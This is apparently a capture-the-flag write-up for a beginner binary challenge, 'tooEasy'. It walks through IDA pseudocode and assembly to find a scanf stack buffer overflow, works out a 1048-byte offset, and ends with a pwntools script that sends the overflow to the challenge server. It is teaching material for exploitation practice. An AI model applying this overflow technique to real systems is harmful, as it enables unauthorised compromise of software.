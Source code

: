 This gives us a file called “tooEasy”. When we see what type of file it is using the file command (see below for command syntax), it says that it is a 32-bit ELF (Executable Linux File).

```
file tooEasy
```

The first thing we want to do is to run the file, so we can see what it does. Since we downloaded it, we will have to change it’s permissions to executable. To do that you can use the “chmod” utility. The syntax is below, with the “x” representing executable.

```
chmod +x tooEasy
```

Now if you were list all of the files in that directory “ls”, it should appear as green. Now we can run it, just like how we would run any other executable file in linux.

```
./tooEasy
```

After we run it, it just takes input and exits. So now that we have a general idea of what the program does, let’s open it up in IDA and see if we can’t look at some Pseudocode (ida has the capacity to analyze assembly code and make pseudocode that depicts what the assembly does). When we look at the main function, we can see that it establishes a variable and set it equal to “56797”, then scans for input (which we saw when we ran the program), and then finally runs a function named “det” and passes along the variable. 

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
   char v4; // [sp+4h] [bp-424h]@1
  int v5; // [sp+41Ch] [bp-Ch]@1


  v5 = 56797;
  __isoc99_scanf("%s", &v4);
  det(v5);
  return 1;
}
```

When we look at the pseudocode for “det” we see that it imports a parameter (which would be the variable set in main) and checks to see if that parameter is equal to “56797”. If it is not, then it will print out “GZ, you win!” and it looks like it will output the flag. The Pseudocode is placed below that depicts this.

```
void __cdecl det(int a1)
{
  char buf; // [sp+Ch] [bp-8Ch]@2
  int fd; // [sp+8Ch] [bp-Ch]@2


  if ( a1 != 56797 )
  {
    puts("GZ, you win!");
    fd = open("./flag.txt", 0);
    read(fd, &buf, 0x80u);
    printf("%s", &buf);
    exit(0);
  }
}
```

So it looks like we will have to do a binary overflow attack. Back in main, it establishes a variable and then reads for input.  If we were to write a large enough string, it will take up all of the space designated for that read and write over the variable, and then when the “det” function runs the if then statement will execute  since we would've changed the value of the variable. Now we could just try inputting thousands of characters, which might work. Or we can find out what the buffer is, and make an exploit to write just enough characters to overflow the buffer and edit what the variable is, like civilized people. To do that, let’s refer to the assembly code.

```
var_C           = dword ptr -0Ch


sub     esp, 424h
mov     [ebp+var_C], 0DDDDh
sub     esp, 8
lea     eax, [ebp+var_424]
push    eax
push    offset format   ; "%s"
call    ___isoc99_scanf
```

So in this code it moves the stack pointer “esp” up by the hexadecimal value 0x424h (which is 1060). Than it sets the address x0Ch (12) bytes below the base pointer equal to the variable which it checks. Then it moves on to actually take the input and scan it into memory. So since the top of the stack is 1060, and the value we’re trying to overwrite is 12 bits below the top we need to write 1048 (1060-12 = 1048) characters in order to overwrite the first part of the value it checks. Below is the script which will do just that. Refer to the comments for questions. If you want a more thorough explanation of scripting, please refer to one of the scripting challenges.


```
#This imports pwntools, which will help us deal with the connection
from pwn import *


#This sets up the connection to the challenge
conn = remote("wcscctf.org", 8383)


#This sets up the string which will overflow the value we are trying to overwri$
bof = "1" * 1048


#This sends the string we just made
conn.sendline(bof)


#These two lines print out that we won, and the flag
print conn.recvline()
print conn.recvline()
```
